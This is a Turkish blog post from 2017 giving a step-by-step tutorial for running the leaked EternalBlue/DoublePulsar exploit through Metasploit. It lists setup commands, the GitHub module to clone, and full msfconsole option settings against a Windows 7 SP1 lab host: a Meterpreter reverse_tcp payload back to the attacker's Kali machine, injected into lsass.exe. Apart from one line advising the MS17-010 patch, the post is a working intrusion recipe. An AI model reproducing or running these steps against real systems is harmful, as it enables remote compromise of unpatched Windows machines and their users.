 ```yaml
---
layout: post
title: "Metasploit Framework EternalBlue&Double Pulsar"
date: 2017-05-02
share: true
description: Metasploit Framework EternalBlue&Double Pulsar
tags:
 - doublepulsar
 - shadow brokers
 - metasploit
comments: true
---
```


# Metasploit Framework EternalBlue&Double Pulsar

Selamlar , bildiğiniz gibi nsa tarafından yazılan kullanılan araçlardan bazıları shadow brokers adlı grup tarafından yayınlandı. 

Yayınlanan araçlardan fuzzbunch adındaki framework en fazla dikkat çeken araç oldu.

Özellikle doublepulsar backdooru ile birçok windows sürümlerine sızılabiliyor.

Bu zaafiyetlerden etkilenmemek için MS17-010 ile ilgili güncellemeleri yüklemelisiniz.

Sızdırılan exploitler kısa bir süre içinde engellendi fakat birçok github hesabı üzerinden bu toollara erişebilrisiniz.

Bir örnek:

[Nsa Shadow Brokers Tools](https://github.com/misterch0c/shadowbroker)

Bu sızıntı hakkında birçok bilgi bulunmaktadır araştırmanızı öneririm. Ben kısaca doublepulsarın metasploit frameworkü üzerinde kullanılmasından bahsedicem.

Eternalblue&Doublepulsar kısaca smb üzerinden dll injection yaparak hedefe sızmayı sağlıyor. Fuzzbunch frameworku üzerinde kullanılıyor.

Araştırırken hep windows üzerinde fuzzbunch'ı kullanarak hedefe sızmaya çalışıldığını gördüm. Fakat fuzzbunch'ı windows üzerinde çalıştırmayı denerken bazı bağımlılıkları yüklerken hatalarla karşılaştım. Daha sonra gördüm ki doublepulsarı metasploit üzerinde de kullanabiliyormuşuz. Hem bu şekilde kullanım açısından daha kolay olur diye düşündüm.

Sırasıyla aşağıdaki komutları çalıştırıyoruz.

>dpkg --add-architecture i386 && apt-get update && apt-get install wine32
>rm -r ~/.wine
>wine cmd.exe
>exit

Daha sonra [https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit) bu adresten metasploit için eternalblue&doublepulsar modünü indiriyoruz.

>git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

İçerisinde bulunan <u>deps</u> klasörü ile <u>eternalblue_doublepulsar.rb</u> dosyasını kalide <u>/usr/share/metasploit-framework/modules/exploits/windows/smb/</u> klasörü içersine kopyalıyoruz.

>service postgresql start - - - > Metasploit'i baştan başlatıyoruz.

Ben Windows 7 Service Pack1 makinesine sızmayı deneyeceğim.

Windows 7 makinesini IP adresi > 172.16.72.129

Kali nin IP adresi > 172.16.72.128

Eternalblue modülünü kullanmak için msfconsole'de:

	use exploit/windows/smb/eternalblue_doublepulsar

![](/images/doublepulsar/1.png)

>show options ile set edebilceğimiz değerler:


![](/images/doublepulsar/2.png)

	set DOUBLEPULSARPATH /usr/share/metasploit-framework/modules/exploits/smb/deps
	set ETERNALBLUEPATH /usr/share/metasploit-framework/modules/exploits/smb/deps
	set rhost 172.16.72.129
	set targetarchıtecture x64
	set payload windows/meterpreter/reverse_tcp
	set processinject lsass.exe
	set lhost 172.16.72.128
	set target 9

![](/images/doublepulsar/3.png)

Son olarak değerler:

![](/images/doublepulsar/4.png)

Daha sonra exploit diyerek hedef makineye sızma işlemini gerçekleştiriyoruz.

![](/images/doublepulsar/5.png)






